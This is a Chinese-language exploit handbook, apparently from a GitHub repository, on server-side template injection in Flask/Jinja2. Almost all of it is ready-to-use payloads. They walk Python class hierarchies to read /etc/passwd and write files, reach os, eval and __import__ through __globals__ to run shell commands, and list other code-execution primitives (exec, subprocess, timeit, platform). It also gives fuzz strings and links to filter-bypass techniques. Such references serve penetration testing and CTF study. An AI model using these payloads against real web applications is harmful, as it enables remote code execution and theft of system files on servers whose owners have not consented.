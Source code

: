 # EXP手册-服务端模板注入（SSTI） 
## 基础知识
[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)
## EXP
### 0x01获取基本类    
```   
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8]
```
可以借助__getitem__绕过中括号限制：
```
''.__class__.__mro__.__getitem__(2)
{}.__class__.__bases__.__getitem__(0)
().__class__.__bases__.__getitem__(0)
request.__class__.__mro__.__getitem__(8)
```
注释：
```
__class__:获得当前对象的类
__bases__:列出其基类
__mro__ :列出解析方法的调用顺序，类似于bases
__subclasses__()：返回子类列表
__dict__ ： 列出当前属性/函数的字典
func_globals:返回一个包含函数全局变量的字典引用
```
### 0x02文件操作

>```object.__subclasses__()[40]```为file类，所以可以对文件进行操作
>读文件：
```
object.__subclasses__()[40]('/etc/passwd').read()
```
>写文件：
```
object.__subclasses__()[40]('/tmp').write('test')
```
### 0x03执行命令

>```object.__subclasses__()[59].__init__.func_globals.linecache```下直接有os类，可以直接执行命令：
```
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
```
>```object.__subclasses__()[59].__init__.__globals__.__builtins__```下有```eval，__import__```等的全局函数，可以利用此来执行命令：
```
object.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
object.__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
object.__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

### 0x04任意代码执行以及文件读取的函数

>os 执行系统命令
```
import os
os.system('ipconfig')
```
>exec 任意代码执行
```
exec('__import__("os").system("ipconfig")')
```
>eval 任意代码执行
```
eval('__import__("os").system("ipconfig")')
```
>timeit 本是检测性能的，也可以任意代码执行
```
import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
```
>platform
```
import platform
platform.popen('ipconfig').read()
```
>subprocess
```
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()
```
>file
```
file('/etc/passwd').read()
```
>open
```
open('/etc/passwd').read()
```
>codecs
```
import codecs
codecs.open('/etc/passwd').read()
```
### 0x05Fuzz
```
{{config}}
{{handler.settings}}
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```
### 0x06Bypass
- [Jinja2 template injection filter bypasses](https://0day.work/jinja2-template-injection-filter-bypasses/)
### Reference：
- [Flask/Jinja2 SSTI && python 沙箱逃逸](https://www.kingkk.com/2018/06/Flask-Jinja2-SSTI-python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/)
- [Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)
